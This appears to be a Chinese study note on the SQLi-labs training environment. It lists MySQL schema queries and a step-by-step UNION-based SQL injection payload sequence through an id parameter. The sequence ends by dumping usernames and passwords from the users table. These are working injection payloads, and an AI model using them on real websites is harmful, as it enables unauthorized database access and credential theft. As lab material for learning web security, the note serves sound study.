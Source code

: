 ```yaml
---
title: SQLI-LABS
date: 2021-11-24 01:55:24
tags:
---
```


# CRUD
- 查库：`SELECT schema_name FROM information_schema.schemata`
- 查表：`SELECT table_name FROM information_schema.tables WHERE table_schema='security'`
- 查列：`SELECT column_name FROM information_schema.columns WHERE table_name='users'`
- 查字段：`SELECT username, password FROM security.users`

# 一些函数
- SELECT SYSTEM_USER();
- SELECT USER();
- SELECT DATABASE();
- SELECT VERSION();
- SELECT @@datadir;	-- 查看 mysql 路径
- SELECT @@version_compile_os;	-- 查看版本

# 注入
1. 查看是否有注入：  
`?id=1'`
2. 查看有多少列：  
`?id=1' ORDER BY 10 --+`
3. 查看哪些数据可以回显：  
`?id=-1' UNION SELECT 1,2,3 --+`
4. 查看当前数据库：  
`?id=-1' UNION SELECT 1,2,DATABASE() --+`
5. 查看数据库：
- 显示下标为2开始后的1位数据  
`?id=-1' UNION SELECT 1,2,schema_name FROM information_schema.schemata LIMIT 2,1 --+`
- 在第三列显示所有数据库名  
`?id=-1' UNION SELECT 1,2,GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.schemata --+`
6. 查表
- 手动筛选  
`?id=-1' UNION SELECT 1,2,table_name FROM information_schema.tables WHERE table_schema='security' LIMIT 0,1 --+`
- 显示所有  
`?id=-1' UNION SELECT 1,2,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security' --+`
7. 查列
- `?id=1' UNION SELECT 1,2,column_name FROM information_schema.columns WHERE table_schema='security' --+`  
- `?id=1' UNION SELECT 1,2,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema='security' --+`
8. 查数据
- `?id=-1' UNION SELECT 1,2,CONCAT_WS('~', username, password) FROM security.users LIMIT 0,1 --+`  
- `?id=-1' UNION SELECT 1,2,GROUP_CONCAT(CONCAT_WS('~', username, password)) FROM security.users --+`